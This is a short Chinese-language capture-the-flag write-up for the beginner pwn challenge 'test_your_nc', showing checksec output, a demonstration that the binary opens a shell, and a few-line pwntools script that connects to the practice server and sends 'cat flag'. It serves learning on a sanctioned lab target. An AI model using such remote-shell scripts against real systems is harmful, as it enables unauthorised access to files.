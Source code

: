 ```yaml
---
title: test_your_nc
date: 2022-07-01 16:29:37
permalink: /pages/a61298/
categories: 
  - pwn
  - 栈溢出
tags:
  - pwn
author: jimmy
---
```


## 一、基本思路

### 1. 检查运行架构和保护机制

```javascript
root@localhost ~# checksec test
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### 2. 试运行程序

直接运行代码查看其效果：

```javascript
root@ubuntu ~/D/pwn> chmod +x test
root@ubuntu ~/D/pwn> ./test
$ abc      
/bin/sh: 1: abc: not found
```

从这里就能发现该程序直接能拿到shell

### 3. exp

由于执行程序就能直接拿到shell，所以直接远程连输入cat flag就完了

```javascript
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
io=remote("node4.buuoj.cn",25352)
payload='cat flag'
io.sendline(payload)
io.interactive()
```



> 作者：jimmy
> 链接：https://？

